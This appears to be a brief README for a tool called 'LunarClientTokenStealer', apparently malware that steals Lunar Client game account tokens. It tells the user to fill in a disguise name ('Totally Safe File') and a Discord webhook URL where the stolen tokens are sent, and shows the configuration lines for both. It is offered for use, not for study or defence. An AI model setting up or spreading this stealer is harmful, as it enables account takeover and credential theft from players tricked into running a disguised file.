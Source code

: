 # LunarClientTokenStealer

Fill in your application name and discord webhook URL for example:

// Put your malware name here
String name = "Totally Safe File";
// Put your webhook URL here
String webhook = "https://discord.gg/webhook/url/here";
